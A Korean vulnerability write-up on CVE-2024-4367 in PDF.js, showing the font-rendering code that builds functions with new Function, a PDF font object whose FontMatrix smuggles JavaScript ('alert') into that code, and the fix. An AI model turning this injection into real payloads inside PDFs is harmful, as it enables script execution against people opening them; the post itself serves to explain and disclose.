 ```yaml
---
title: "[하루한줄] CVE-2024-4367 : PDF.js의 임의의 Javascript 코드 실행 취약점"
author: pwndorei
tags: [PDF.js, javascript, pwndorei]
categories: [1day1line]
date: 2024-05-22 18:00:00
cc: true
index_img: /img/1day1line.png
---
```


## URL

[https://movaxbx.ru/2024/05/20/cve-2024-4367-arbitrary-javascript-execution-in-pdf-js/](https://movaxbx.ru/2024/05/20/cve-2024-4367-arbitrary-javascript-execution-in-pdf-js/)

## Target

- pdfjs-dist(npm) ≤ 4.1.392
- Mozilla Firefox < 126
- Mozilla Firefox < 115.11
- Mozilla Thunderbird < 115.11

## Explain

Mozilla에서 개발 및 관리하는 자바스크립트 기반의 pdf 뷰어인 PDF.js에서 임의의 자바스크립트 코드를 실행할 수 있는 취약점이 발견되었습니다. 

해당 취약점은 pdf의 스크립팅 기능과 무관한 폰트 렌더링 부분에 존재합니다.

```jsx
if (this.isEvalSupported && FeatureTest.isEvalSupported) {
  const jsBuf = [];
  for (const current of cmds) {
    const args = current.args !== undefined ? current.args.join(",") : "";
    jsBuf.push("c.", current.cmd, "(", args, ");\n");
  }
  // eslint-disable-next-line no-new-func
  console.log(jsBuf.join(""));
  return (this.compiledGlyphs[character] = new Function(
    "c",
    "size",
    jsBuf.join("")
  ));
}
```

 PDF.js에서는 폰트 렌더링 과정의 성능 향상 위해 path generator 함수를 위와 같이 `new Function`을 통해 생성하는데 이때 `Funtion` 오브젝트의 body로 사용되는 `jsbuf`에 코드를 삽입하는 것으로 임의의 자바스크립트 코드를 실행할 수 있고 poc에서는 이를 익스플로잇하기 위해 FontMatrix와 transform 커맨드를 이용합니다.

 

아래의 `CompiledFont` 클래스의  `compileGlyph` 메소드는 위에서 사용되는 `cmds`를 생성합니다

```jsx
compileGlyph(code, glyphId) {
    if (!code || code.length === 0 || code[0] === 14) {
      return NOOP;
    }
    let fontMatrix = this.fontMatrix;
    ...
    const cmds = [
      { cmd: "save" },
      { cmd: "transform", args: fontMatrix.slice() },
      { cmd: "scale", args: ["size", "-size"] },
    ];
    this.compileGlyphImpl(code, cmds, glyphId);
    cmds.push({ cmd: "restore" });
    return cmds;
  }
```

이 중에서도 `transform` 커맨드의 args를 살펴보면 `fontMatrix.slice()`가 사용되는 것을 확인할 수 있고 `fontMatrix`의 기본 값은 `[0.001, 0, 0, 0.001, 0, 0]` 이기 때문에 생성되는 `Function`은 아래와 같을 것입니다.

```jsx
Function(c, size)
{
	c.save();
	c.transform(0.001,0,0,0.001,0,0);
	c.scale(size,-size);
	c.moveTo(0,0);
	c.restore();
}
```

`fontMatrix`의 값은 아래와 같이 pdf 파일 내에서 새롭게 정의하여 기본 값을 대체할 수 있고 저장된 값들의 타입 검사를 수행하지 않기 때문에 SQL 또는 Command Injection과 유사한 방법으로 자바스크립트 코드를 삽입하는 것이 가능합니다.

```jsx
1 0 obj
<<
  /Type /Font
  /Subtype /Type1
  /FontDescriptor 2 0 R
  /BaseFont /FooBarFont
  /FontMatrix [1 2 3 4 5 (0\); alert\('foobar')]
>>
endobj
```

이 경우에는 소괄호로 감싼 `(0\); alert\('foobar')`이 자바스크립트 문자열 `0); alert('foobar'`로 변환되어 삽입되고 생성된 `Function` 오브젝트의 코드는 아래와 같습니다

```jsx
	c.save();
	c.transform(1,2,3,4,5,0); alert('foobar');
	c.scale(size,-size);
	c.moveTo(0,0);
	c.restore();
```

해당 취약점의 패치에서는 아래와 같이 기존에 문자열로 처리하던 `transform`, `save` 등의 커맨드를 `FontRenderOps`의 `SAVE`, `TRANSFORM` 등 enum 값으로 대체했고 `cmds` 또한 문자열 배열이 아닌 `Commands` 클래스로 대체했습니다. 또한 커맨드 추가에 사용되는 `add` 메소드에서는 인자의 타입이 숫자인지 검사하는 것을 통해 자바스크립트 코드가 삽입되는 것을 막았습니다.

![Untitled](2024-05-22/Untitled.png)

![Untitled](2024-05-22/Untitled%201.png)
